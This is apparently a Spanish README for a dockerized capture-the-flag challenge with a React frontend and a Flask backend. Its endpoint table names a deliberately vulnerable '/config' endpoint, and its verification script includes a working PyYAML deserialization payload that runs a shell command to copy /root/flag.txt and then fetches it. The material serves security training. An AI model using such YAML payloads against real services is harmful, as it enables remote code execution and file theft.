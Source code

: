 ### **Frontend**
- Base: `node:18-alpine` (build) + `nginx:alpine` (runtime)
- Tamaño: ~50MB
- Tiempo build: ~30 segundos

### **Backend**
- Base: `python:3.9-slim`
- Tamaño: ~200MB
- Tiempo build: ~60 segundos

## 🎯 **Endpoints Disponibles**

| Endpoint | Método | Descripción |
|----------|--------|-------------|
| `/` | GET | Frontend React |
| `/api/system` | GET | Información del sistema |
| `/config` | POST | Endpoint vulnerable (PyYAML RCE) |
| `/uploads/flag.txt` | GET | Flag exfiltrada |

## 🧹 **Limpieza y Optimización**

### **Archivos Docker Necesarios**
- ✅ `docker-compose.yml` - Orquestación principal
- ✅ `backend/Dockerfile` - Imagen backend
- ✅ `frontend/Dockerfile` - Imagen frontend
- ✅ `frontend/nginx.conf` - Configuración proxy

### **Archivos Eliminados**
- ❌ `Dockerfile` (raíz) - Duplicado innecesario

## ✅ **Verificación Final**

```bash
# 1. Servicios activos
docker ps

# 2. Frontend accesible
curl -s http://localhost:3000 | grep -o '<title>.*</title>'

# 3. Backend proxy funcionando
curl -s http://localhost:3000/api/system | jq .user

# 4. CTF completable
curl -s -X POST http://localhost:3000/config \
  -H "Content-Type: application/x-yaml" \
  -d $'!!python/object/apply:os.system\n- python3 -c "import os; os.system(\'cp /root/flag.txt /app/static/flag.txt\')"' \
  && curl -s http://localhost:3000/uploads/flag.txt | grep HACKFEST
```

## 🏆 **Estado: ✅ COMPLETAMENTE OPTIMIZADO**

- ✅ Frontend React dockerizado
- ✅ Backend Flask dockerizado
- ✅ Proxy nginx configurado
- ✅ CTF challenge operativo
- ✅ Despliegue con docker-compose
- ✅ Documentación completa
- ✅ **Configuración Docker limpia y optimizada**
